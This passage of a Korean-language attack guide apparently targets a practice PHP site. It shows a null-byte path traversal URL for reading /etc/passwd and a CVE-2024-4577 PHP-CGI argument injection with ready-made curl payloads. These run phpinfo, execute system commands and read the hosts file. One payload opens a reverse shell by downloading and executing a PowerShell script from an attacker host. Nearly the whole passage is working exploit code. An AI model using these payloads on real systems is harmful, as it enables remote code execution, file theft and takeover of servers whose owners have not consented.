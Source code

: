 **공격 3: NULL Byte Injection (PHP < 5.3.4)**
```
http://localhost:8000/notice.php?page=../../../etc/passwd%00
```

---

### 2. **CVE-2024-4577: PHP-CGI Argument Injection**

#### 전제 조건
⚠️ **Windows + PHP-CGI 모드에서만 작동**
- Docker 환경(mod_php)에서는 작동하지 않음
- Windows Server 2019 + XAMPP 환경 필요

#### 취약한 파일
**모든 PHP 파일** (PHP-CGI 모드에서)
- `support.php` (추가 공격 표면: template 파라미터)
- `product.php` (추가 공격 표면: spec 파라미터)
- `index.php`, `company.php`, `notice.php`

#### 공격 방법

**기본 Payload**
```bash
# Soft Hyphen (0xAD)를 이용한 우회
support.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input

# POST Body:
<?php system('whoami'); ?>
```

**고급 Payload**
```bash
# 1. phpinfo() 실행
curl -X POST "http://target/support.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php phpinfo(); ?>"

# 2. 시스템 명령 실행
curl -X POST "http://target/product.php?spec=../index&lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php system('dir C:\\'); ?>"

# 3. 파일 읽기
curl -X POST "http://target/support.php?lang=en%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php echo file_get_contents('C:\\Windows\\System32\\drivers\\etc\\hosts'); ?>"

# 4. Reverse Shell
curl -X POST "http://target/company.php?lang=ko%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" \
  -d "<?php exec('powershell -c \"IEX(New-Object Net.WebClient).DownloadString(\'http://attacker/shell.ps1\')\"'); ?>"
```

---